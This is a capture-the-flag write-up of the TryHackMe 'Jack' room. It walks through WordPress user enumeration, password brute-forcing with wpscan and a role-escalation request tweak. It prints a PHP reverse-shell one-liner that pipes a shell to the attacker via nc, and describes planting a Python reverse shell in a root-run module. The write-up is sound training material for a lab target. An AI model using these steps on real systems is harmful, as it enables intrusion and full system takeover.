#jack

This is a writeup for the room [Jack at TryHackMe](https://tryhackme.com/room/jack)

I used Parrot OS to complet the room, so there might be a difference of syntax in the commands!

The target IP for me was 10.10.142.202 but I put it in my /etc/hosts as jack.thm

This is marked as a HARD challenge, so I won't go ( or try not to) into too much detail on basics.

Have fun!! 

`CryptoTzipi aka CyberLola`



We will start with our host enumeration by using nmap with the following command

`nmap -sC -A <IP> -T 4`



Ports 22(SSH) and 80(HTTP) are open, and we can see we are dealing with a WordPress application.

Here I proceeded to put `jack.thm` into my /etc/hosts file and took a look at the application in Firefox:





WordPress page, let's go try to enumerate some users by using wpscan!

`wpscan --url https://jack.thm -e u`



NICE!! Three users found, so the next step is to save these users in a .txt file, one per line (kind of a mini wordlist!) so we can use this file to attempt some password bruteforcing! I saved my file naming it `jackusers.txt` 
You will need a wordlist for the password. I used the famous rockyou.txt first and 2 cups of coffee later I gave up. 

Here is some of the output given by using rockyou.txt, just for fun :D 



I looked around what other wordlists I had that I could try and was lucky using fasttrack.txt which is WAY shorter than rockyou.txt!

The full command is:

`wpscan -U /insert full path to your file/jackusers.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm`



AND we got it!!!!



SWEET! Next, going to the standard `wp-admin` login page, we use the credentials found and successfully login :)



Only to find out Wendy can't really do anything ... BUT we can give her some power!! How?
1. Click on Wendy's profile. You should see the following:



2. Open your Burp Suite and `intercept is on` . Refresh the page  and the burp output is ...



3. Add `&ure_other_roles=administrator` at the end of the last line in the output! Like this...



4. Forward it and you should see THIS!



NOW we're in business!!

Pick a plugin (I picked Askimet), edit it including a php reverse shell

`<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc yourIP 7777 >/tmp/f'); ?>`

Update it, set a nc listener, then activate it.





We got a shell!! And the user.txt as well :)



There is another interesting file besides user.txt in there so we take a look at it.



Hmmmmmm... backups, huh?!? Doing further manual enumeration ....



Did you see that? A private key (id_rsa) and everyone can read it?? 



Let's grab that key, put it in our system, save it, chmod +x it and use it for ssh purposes!!! If we think about the note we read, it is saying "Jack will hear about it when he comes back" so it makes sense that is Jack's private key!!



And we were right :)

Here I started with some basic enumeration... nothing really useful...but the room gives us a hint and there is no shame using it :) Python!! OK, so let's see what we can do with Python!!



Looking at most of these, we can see that they are owned by root in the group "family" ... Is Jack a member of this group??



(you'll get there faster if unlike me you can type, lol) 

and yes, he is!! Great! OK, so now we think: what can we do with Python that will enable us to gain root... cronjobs come to mind! A tool called 'pspy' could be uploaded in jack's /tmp and then we could confirm there is a cronjob running in his system... these scripts do import Python modules such as os ... so what if we could just edit the module and insert our python reverse shell in there??



Can you see what we've done there? Using nano to see the module then adding the malicious script right at the end? :D

Before saving and exiting nano, just set up another nc listener, wait for it ....



BOOM!!! We gained root access and now can easily get ahold of root.txt!!!

And WE ARE DONE!!



I hope this writeup was helpful!

Happy Hacking

                                    
                                    `CryptoTzipi aka CyberLola`

